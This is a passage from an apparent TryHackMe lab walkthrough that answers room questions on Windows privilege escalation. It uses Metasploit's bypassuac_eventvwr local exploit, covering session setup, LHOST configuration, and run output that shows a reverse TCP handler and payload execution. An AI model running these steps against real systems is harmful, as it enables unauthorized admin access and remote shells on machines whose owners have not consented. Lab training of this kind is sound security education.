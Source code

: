 `No answer needed`

6. Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?

`exploit/windows/local/bypassuac_eventvwr`

7. Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell.

`No answer needed`

8. Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT`

```
use exploit/windows/local/bypassuac_eventvwr
```

`No answer needed`

9. Local exploits require a session to be selected (something we can verify with the command `show options`), set this now using the command `set session SESSION_NUMBER`

`No answer needed`

10. Now that we've set our session number, further options will be revealed in the options menu. We'll have to set one more as our listener IP isn't correct. What is the name of this option?

`LHOST`

11. Set this option now. You might have to check your IP on the TryHackMe network using the command `ip addr`

`No answer needed`

12. After we've set this last option, we can now run our privilege escalation exploit. Run this now using the command `run`. Note, this might take a few attempts and you may need to relaunch the box and exploit the service in the case that this fails.

```
msf5 exploit(windows/local/bypassuac_eventvwr) > run

[*] Started reverse TCP handler on 192.168.178.52:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Cleaning up registry keys ...
[*] Exploit completed, but no session was created.
```

`No answer needed`
